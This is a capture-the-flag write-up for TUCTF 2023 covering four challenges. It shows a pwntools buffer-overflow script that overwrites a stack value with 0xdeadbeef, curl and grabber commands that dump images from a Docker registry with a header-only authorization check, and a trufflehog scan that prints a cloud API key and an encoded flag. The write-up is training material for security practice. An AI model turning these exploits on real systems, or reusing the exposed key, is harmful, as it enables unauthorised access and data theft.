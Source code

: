 
# tuctf 2023
https://tuctf.com/2023

### Index
- [Forensics](#forensics)
    - [state of the git](#state-of-the-git)
- [Pwn](#pwn)
    - [hidden values](#hidden-values)
- [Misc](#misc)
    - [silly registry](#silly-registry)
    - [secret agent](#secret-agent)


# Forensics

## state of the git
Description: <br>
given is an git repository, with an IaC (Infrastructure as Code) codebase written in Terraform.

You can search the repository for api keys with tools like [trufflehog](https://github.com/trufflesecurity/trufflehog), which will give you an digitalocean v2 API key.
```bash
# run "trufflehog filesystem ." inside git repository
🐷🔑🐷  TruffleHog. Unearth your secrets. 🐷🔑🐷

Found unverified result 🐷🔑❓
Detector Type: DigitalOceanV2
Decoder Type: BASE64
Raw result: dop_v1_07fbc880cf053a91979807dfaaf8ad5c9880abae1f8df2ccece966942af41408
File: .git/objects/95/5de908450115ce7b6892c2a58c03e7e2221a6f
Line: 60

# inspect the git object further
git cat-file -p 955de908450115ce7b6892c2a58c03e7e2221a6f 

# the flag is base64 encoded in following line:
"password": "VFVDVEZ7NzNycjRmMHJtX1M3QTczLTF5XzUzY3IzNzV9Cg==", // ZG9wX3YxXzA3ZmJjODgwY2YwNTNhOTE5Nzk4MDdkZmFhZjhhZDVjOTg4MGFiYWUxZjhkZjJjY2VjZTk2Njk0MmFmNDE0MDgK < Change this before going !
```

## free proxy
Description: <br>
Given are two ports i.e. Alice and Bob

You are an proxy between those two parties and must intercept their RSA encrypted traffic. <br>
Key exchange:
    - Bob pub -> proxy
    - proxy pub -> Alice
    - Alice pub -> proxy
    - proxy pub -> Bob

script to solve it -> [free_proxy.py](./free_proxy.py)

# Pwn

## hidden values
Description: <br>
Given is an tcp socket, to whom you can connect with netcat.

<img src="./hidden-value.png" width="200">

You need to overwrite an variable on the stack with 0xdeadbeef, through an buffer overflow to trigger the if statement and get the flag:
```python
from pwn import *

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# connect
io = remote("chal.tuctf.com", 30011)

# Build the payload
payload = flat(
        b'A' * 44,
        p32(0xdeadbeef)
)

# Send the payload
io.sendlineafter(b':', payload)
io.recvall()

# bruteforce location of 0xdeadbeef locally:
#for i in range(0,100):
#    io = process('./hidden-value')
#    io.sendlineafter(b':', b'A' * i + p32(0xdeadbeef))
#    print(io.recvall().decode('latin-1'))
```


# Misc

## silly registry
Description: <br>
given is a hostname and port.

On the port runs https://distribution.github.io/distribution which is docker registry software to host docker container images. <br>
The registry uses silly authorization, which is for developing purposes and only check if the Authorization header is present and not the content.
- https://distribution.github.io/distribution/about/configuration/#silly
- https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry
- https://github.com/Syzik/DockerRegistryGrabber

```bash
# connect with Authorization header and retrieve image list
curl -H "Authorization: anything" http://chal.tuctf.com:30003/v2/_catalog

# use docker registry grabber to enumerate 
python drg.py -A "lkas" http://chal.tuctf.com:30003/v2/ --dump_all

# the flag is one of the extracted images
```


## secret agent
Description: <br>
given is a tcp socket to whom you can connect with netcat.

Key: <br>
First you need to find the correct key, which is "HAHAHAHAHHAHAHAHAHAHAH"

Challenge1: <br>
Script for mapping the cities with their costs and calculating the cheapest path is [agent.py](./agent.py). The correct path with a cost of 20 is ['Attaya', 'Charity', 'Emell', 'Iyona', 'Kepliker', 'Osiros', 'Rhenora', 'Shariot']. 

Challenge2: <br>
you get text in the braille alphabet " ⠥⠞⠀⠞⠉⠀⠎⠊⠋⠀⠍⠁⠀⠵⠁⠀⠝⠊⠀⠺⠊⠛⠀⠇⠇⠊⠀⠕⠉⠀⠍⠀⠑⠀⠃⠀⠅⠉⠁⠀⠛⠁⠀⠝⠊⠁". <br> 
When decoding it with https://www.dcode.fr/braille-alphabet you get "UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA". <br>
Which is little endian, so you need to read each chunck from back to front, which results to TUCTFISAMAZINGIWILLCOMEBACKAGAIN.

Challenge3: <br>
Enter TUCTFISAMAZINGIWILLCOMEBACKAGAIN, and get the flag